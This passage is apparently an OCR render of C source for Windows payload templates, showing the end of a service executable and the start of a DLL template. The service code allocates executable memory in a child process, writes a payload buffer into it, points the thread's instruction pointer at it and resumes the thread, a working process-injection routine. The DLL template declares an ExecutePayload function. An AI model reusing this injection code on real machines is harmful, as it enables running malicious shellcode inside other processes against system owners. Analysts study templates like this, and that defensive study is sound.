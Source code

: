 ```c
		  
			GetThreadContext( pi.hThread, &Context );
		  
			lpPayload = VirtualAllocEx( pi.hProcess, NULL, PAYLOAD_SIZE, MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE );
			if( lpPayload ) {
				WriteProcessMemory( pi.hProcess, lpPayload, &bPayload, PAYLOAD_SIZE, NULL );
#ifdef _WIN64
				Context.Rip = (DWORD64)lpPayload;
#else
				Context.Eip = (DWORD)lpPayload;
#endif
				SetThreadContext( pi.hThread, &Context );
			}

			ResumeThread( pi.hThread );
			
			CloseHandle( pi.hThread );
		  
			CloseHandle( pi.hProcess );
		}
		
		ServiceHandler( SERVICE_CONTROL_STOP );
		
		ExitProcess( 0 );
	}
}

/*
 *
 */
int __stdcall WinMain( HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow ) {
	SERVICE_TABLE_ENTRY st[] = { 
        { (LPSTR)&cServiceName, (LPSERVICE_MAIN_FUNCTIONA)&ServiceMain }, 
        { NULL, NULL } 
    };
	return StartServiceCtrlDispatcher( (SERVICE_TABLE_ENTRY *)&st );
}
```

## 03 - DLL

Main source code

```c
#include <windows.h>
#include "template.h"

#if BUILDMODE == 2
/* hand-rolled bzero allows us to avoid including ms vc runtime */
void inline_bzero(void *p, size_t l) {
	BYTE *q = (BYTE *)p;
	size_t x = 0;
	for (x = 0; x < l; x++)
		*(q++) = 0x00;
}

#endif


void ExecutePayload(void);

```